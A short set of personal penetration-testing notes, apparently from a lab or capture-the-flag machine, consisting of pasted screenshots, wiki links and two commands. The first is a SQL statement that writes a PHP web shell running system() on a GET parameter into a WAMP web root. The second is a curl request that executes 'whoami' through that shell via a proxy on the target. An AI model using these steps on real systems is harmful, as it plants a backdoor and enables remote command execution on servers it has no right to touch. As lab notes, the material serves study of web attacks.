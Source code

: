 ![[Pasted image 20221108115238.png]]

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shelly.php';
```

![[Pasted image 20220610141248.png]]

```
curl "http://127.0.0.1:8080/shelly.php?cmd=whoami" --proxy $TARGET:3128 
```

[[Python#Server]]

[[rlwrap]]
